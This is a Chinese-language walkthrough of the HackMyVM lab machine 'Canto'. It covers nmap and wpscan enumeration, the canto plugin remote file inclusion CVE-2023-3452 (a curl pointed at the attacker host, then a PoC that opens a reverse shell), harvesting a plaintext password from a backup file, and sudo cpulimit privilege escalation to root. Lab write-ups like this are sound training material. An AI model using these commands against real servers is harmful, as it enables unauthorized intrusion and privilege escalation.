 # Canto

2024-11-02 https://hackmyvm.eu/machines/machine.php?vm=Canto

## IP

192.168.5.40

## Scan

Open Port -> 22,80

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.3p1 Ubuntu 1ubuntu3.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 c6af1821fa3f3cfc9fe4ef04c916cbc7 (ECDSA)
|_  256 ba0e8f0b2420dc75b71b04a181b66d64 (ED25519)
80/tcp open  http    Apache httpd 2.4.57 ((Ubuntu))
|_http-server-header: Apache/2.4.57 (Ubuntu)
|_http-generator: WordPress 6.5.3
|_http-title: Canto
```

wpscan --url http://192.168.5.40/ -e u 发现用户 erik

尝试包破 erik 用户的登陆密码，没用找到。尝试用字典对 web 目录进行爆破，也没找到入口点。在看 wp 有没有可利用的漏洞插件：

```
wpscan --url http://192.168.5.40/ --plugins-detection mixed
```

发现插件 canto 3.0.4，搜索后有 exp CVE-2023-3452，进行验证发现存在漏洞：

```
curl 'http://192.168.5.40/wp-content/plugins/canto/includes/lib/download.php?wp_abspath=http://192.168.5.3'
```

使用此 exp 进行利用 https://github.com/leoanggal1/CVE-2023-3452-PoC

```
python3 CVE-2023-3452.py -u http://192.168.5.40 -LHOST 192.168.5.3 -LPORT 5554 -NC_PORT 8888 -s ./5.3/8888.php
```

得到 shell 后，发现是 www-data 权限，需要进一步提权。进入 /home/erik 发现 note 提示，找到 database backup：

```
find / -type d -name '*backups*' 2>/dev/null

www-data@canto:/$ cd /var/wordpress/backups/
www-data@canto:/var/wordpress/backups$ ls
12052024.txt
www-data@canto:/var/wordpress/backups$ cat 12052024.txt
------------------------------------
| Users	    |      Password        |
------------|----------------------|
| erik      | th1sIsTheP3ssw0rd!   |
------------------------------------
```

su 切换到 erik 用户，得到 user flag:

```
erik@canto:~$ cat user.txt
d41d8cd98f00b204e9800998ecf8427e
```

继续提权到 root：

```
sudo -l

sudo cpulimit -l 100 -f /bin/sh
# cat root.txt
1b56eefaab2c896e57c874a635b24b49
```
